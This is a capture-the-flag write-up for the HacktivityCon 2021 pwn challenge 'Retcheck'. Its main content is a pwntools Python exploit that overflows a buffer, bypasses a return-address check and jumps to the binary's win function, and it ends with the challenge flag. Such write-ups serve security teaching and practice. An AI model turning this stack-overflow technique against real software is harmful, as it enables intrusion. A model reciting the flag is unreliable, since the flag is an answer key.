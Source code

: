 ```yaml
---
name: Retcheck (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for Retcheck (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Retcheck

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=910s "HacktivityCon 2021: Retcheck")

## Challenge Description

> Stack canaries are overrated.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter('>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.pc)  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './retcheck'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 400

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * 408,
    0x401465,  # canary (main+18)
    asm('nop') * 8,
    elf.symbols.win
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('!', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{a73dc20c1cd1f918ae7b591e8625e349}`
